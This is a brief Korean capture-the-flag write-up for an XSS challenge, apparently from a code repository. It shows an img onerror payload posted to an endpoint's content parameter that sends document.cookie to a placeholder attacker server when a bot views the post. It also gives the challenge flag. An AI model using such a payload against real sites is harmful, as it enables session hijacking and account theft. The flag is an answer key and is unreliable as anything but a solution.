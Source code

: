 # 라업
- post 추가하는 엔드포인트에서 content 파라미터로 아래와 같은 패이로드를 넣고, 공격 서버에서 리스닝

```
<img src="nonexistent.jpg" onerror="new Image().src = '[공격 서버 주소]/?cookie=' + document.cookie;">
```

- 그 상태에서 봇 동작시키면 cookie값을 얻어 올 수 있음



# 플래그
K0{co0k1e_1s_r4bbit}

# 설명
xss